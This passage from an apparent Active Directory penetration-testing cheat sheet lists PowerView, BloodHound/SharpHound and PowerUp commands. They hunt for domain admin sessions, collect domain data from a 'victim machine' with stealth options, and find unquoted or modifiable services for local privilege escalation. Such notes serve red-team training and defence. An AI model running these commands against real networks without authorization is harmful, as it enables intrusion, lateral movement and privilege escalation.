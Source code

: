 ```powershell
Find-DomainUserLocation -UserGroupIdentity "RDPUsers"

# Find computers where a domain admin session is available and current user has admin access (uses Test-AdminAccess)
Find-DomainUserLocation -CheckAccess

# Find computers (File Servers and Distributed File servers) where a domain admin session is available.
Find-DomainUserLocation –Stealth
```

##### Using Bloodhound

```powershell
# Run Directly Victim Machine
. C:\AD\Tools\BloodHound-master\Collectors\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
# Or
SharpHound.exe

# Stealthier Way
Invoke-BloodHound –Stealth

# Run Outside of Domain (Windows)
runas /netonly /user:domain\user cmd.exe
SharpHound.exe -c All --domaincontroller <DC IP> --domain <domain> --ldapusername <user> --ldappassword “passwd” --distinguishedname "OU=BR"

# Run Outside of Domain (Linux)
bloodhound-python -u <user> -p 'passwd' -ns <DC IP> -dc <FQDN> -d <domain> -c all --zip -gc <specify DC if necessary> --dns-tcp
```

# III. Local Privilege Escalation

### Service Path Privilege Escalation using PowerUp

```powershell
# Get services with unquoted paths and a space in their name.
Get-ServiceUnquoted -Verbose
Get-WmiObject -class win32_service | select pathname (wmi command/lists all paths)

# Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

### Automation Checks for Privilege Escalation
